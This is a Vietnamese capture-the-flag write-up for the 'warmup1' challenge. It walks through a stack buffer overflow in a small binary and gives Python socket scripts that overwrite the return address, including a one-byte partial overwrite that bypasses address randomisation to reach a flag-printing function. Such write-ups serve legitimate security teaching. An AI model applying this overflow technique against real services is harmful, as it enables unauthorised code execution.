





# warmup1

Thả file binary vào IDA thì chúng ta biết được flow chương trình như sau:

```C
ssize_t vuln()
{
  char buf[16];

  return read(0, buf, 0x100uLL);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  alarm(0x3Cu);
  setbuf(_bss_start, 0LL);
  setbuf(stdin, 0LL);
  vuln();
  return 0;
}

int win()
{
  return execl("/bin/cat", "/bin/cat", "flag.txt", 0LL);
}
```

1. Từ hàm main call tới hàm vuln.
2. Tại vuln có khai báo một mảng char 16 phần tử, sau đó thực hiện read data vào buffer này và trả về giá trị của hàm read sau khi thực hiện.
3. Hàm win được khai báo nhưng ko có vị trí nào thực hiện call hàm này, và để ý vào hàm vuln đã thực hiện read 0x100 bytes vào một buffer 16 bytes. Từ đó ta có thể khai thác buffer overflow để sau khi chạy hàm vuln sẽ jump đến hàm win.

Giờ mình sẽ phân tích stack của vuln có những gì?


Bức ảnh trên mô tả stack của vuln, gồm 32 bytes trong đó:
- 16 bytes đầu là buf
- 8 bytes tiếp theo là giá trị của thanh ghi rbp được push lúc đầu hàm
- 8 bytes cuối là return address đc push từ lúc call hàm, để hàm biết phải return về đâu

Bây giờ khi đã biết được cấu trúc stack của vuln, mình sẽ thực hiện tấn công bằng cách nhập tràn buf sao cho giá trị của return address bằng địa chỉ hàm win.



Theo như IDA Pro thì địa chỉ của hàm win là 0x1219. Do tổ chức dữ liệu là [little endian](https://viblo.asia/p/little-endian-vs-big-endian-E375z0pWZGW). Nên mình sẽ phải đảo ngược địa chỉ của win khi write vào stack, tức là giá trị `0x0000000000001219` sẽ trở thành `19 12 00 00 00 00 00 00`.

Lúc này stack sẽ có dạng như sau:



Nhưng chúng ta không thể write thẳng vào return address được. Mình sẽ phải đi qua buf và saved registers nữa. Vậy những chỗ này mình sẽ điền gì? Thực ra những giá trị ở vùng này ko quan trọng nên mình thường sẽ điền bừa kí tự `a` vào (vì nó quen tay dễ bấm chứ không vì lí do gì : D)

Ok, và stack sau khi hoàn thiện sẽ trông như thế này:



Giờ thì mình sẽ convert qua code python dùng socket để thao tác thay netcat:

```Python
import socket

with socket.create_connection(('warmup1.ctf.maplebacon.org', 1337)) as s:
    s.send(b'a' * (16 + 8) + int(0x1219).to_bytes(8, 'little'))
    print(s.recv(1024).decode())
```

Run! Và kết quả nhận được không phải flag mà là segmentation fault. Lỗi này thường xảy ra khi mình truy cập vào một vùng nhớ không được phép truy cập. Vậy thì khả năng là vị trí return address mình đã nhập vào không đúng. Mình nhận ra file binary này compile với `/DYNAMICBASE` (tức là base address process sẽ được random mỗi lần chạy). Vậy thì mình sẽ phải tính lại địa chỉ của hàm win bằng base address + 0x1219. Nhưng vấn đề là làm sao để lấy đc base address? Sau khi nghĩ một hồi thì mình nhận ra, base address luôn là bội của 0x1000 vậy nên 3 số cuối của base address sẽ luôn là 000, vì thế nên địa chỉ hàm win cũng sẽ có 3 số cuối là 219. 

Thêm một điều kiện tuyệt vời nữa là nơi mà hàm vuln phải return về lại rất gần với hàm win



Ví dụ base address là 0x0deadbeef000. Địa chỉ mà hàm vuln phải return là 0x0deadbeef000 + 0x1212 = 0xdeadbef0212. Địa chỉ hàm win là 0x0deadbeef000 + 0x1219 = 0xdeadbef0219. Vậy thì 2 giá trị này chỉ khác nhau 1 byte duy nhất là 12 và 19. Vậy nên mình chỉ cần overflow 16 bytes buf, 8 bytes saved registers và 1 byte return address (7 bytes còn lại ko động đến thì giữ nguyên) là thành công.

```Python
import socket

with socket.create_connection(('warmup1.ctf.maplebacon.org', 1337)) as s:
    s.send(b'a' * (16 + 8) + b'\x19')
    print(s.recv(1024).decode())
```

Boom! Flag nhận được là ``mình không lưu flag mà server thì tắt rồi : D``


